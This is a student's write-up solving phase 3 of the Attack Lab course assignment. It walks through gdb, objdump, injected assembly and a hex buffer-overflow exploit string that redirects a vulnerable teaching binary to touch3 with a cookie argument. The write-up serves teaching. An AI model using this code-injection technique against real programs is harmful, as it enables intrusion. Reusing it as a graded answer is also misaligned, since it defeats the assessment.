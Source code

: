 ```yaml
---
category:
  - Course Work
tag:
  - Attack Lab
  - Computer Organization and Architecture
title: "Attack Lab: Phase 3"
---
```


###### Run

```bash
$ gdb ctarget --tui
...
(gdb) break getbuf
Breakpoint 1 at 0x401b28: file buf.c, line 12.
(gdb) run -q
Starting program: /home/stu2020012872/3-lab-3-attacklab/target97/ctarget -q

Breakpoint 1, getbuf () at buf.c:12
(gdb) info registers rsp
rsp            0x55668cc0       0x55668cc0
```

###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28: 48 83 ec 28           sub    $0x28,%rsp
...
0000000000401c78 <touch3>:
...
```

###### Write File `phase-3-inject.s`

```assembly
movq $0x55668cc8, %rdi
pushq $0x0000000000401c78
ret
```

###### Run

```bash
gcc -c phase-3-inject.s
objdump --disassemble phase-3-inject.o > phase-3-inject.asm
```

###### Read File `phase-3-inject.asm`

```assembly
...
0000000000000000 <.text>:
   0: 48 c7 c7 c8 8c 66 55  mov    $0x55668cc8,%rdi
   7: 68 78 1c 40 00        pushq  $0x401c78
   c: c3                    retq
```

###### Read File `cookie.txt`

```
0x3a9a6c2f
```

###### Convert Cookie to String

The string should end with a `\0`.

```
33 61 39 61 36 63 32 66 00
```

###### Write File `phase-3.txt`

Place the string in the parent frame of `getbuf`, that is, `test` stack frames.

```
48 c7 c7 c8 8c 66 55
68 78 1c 40 00
c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
98 8c 66 55 00 00 00 00
33 61 39 61 36 63 32 66 00
```

###### Run

```bash
./hex2raw < phase-3.txt > phase-3.in
./ctarget -i phase-3.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch3!: You called touch3("3a9a6c2f")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
